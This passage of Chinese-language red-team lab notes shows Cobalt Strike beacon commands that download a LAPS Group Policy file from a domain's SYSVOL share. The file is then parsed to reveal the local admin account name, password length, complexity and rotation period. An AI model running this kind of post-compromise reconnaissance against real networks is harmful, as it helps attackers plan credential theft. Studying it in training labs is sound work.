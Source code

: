 如果我们能找到正确的GPO，我们可以从```gpcfilesyspath```下载LAPS的配置文件
```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 16:59:45   Scripts
 575b     fil     03/16/2021 17:11:46   comment.cmtx
 740b     fil     03/16/2021 17:11:46   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol (740 bytes)
[*] download of Registry.pol is complete
```
## GPRegistryPolicyParser
[GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)这个工具里的```Parse-PolFile```方法可以把上面的配置文件转成人类可读的格式
```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3    <-- Password contains uppers, lowers and numbers (4 would also include specials)

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14   <-- Password length is 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 7    <-- Password is changed every 7 days

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 14
ValueData   : lapsadmin   <-- The name of the local admin account to manage

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1   <-- LAPS is enabled
```
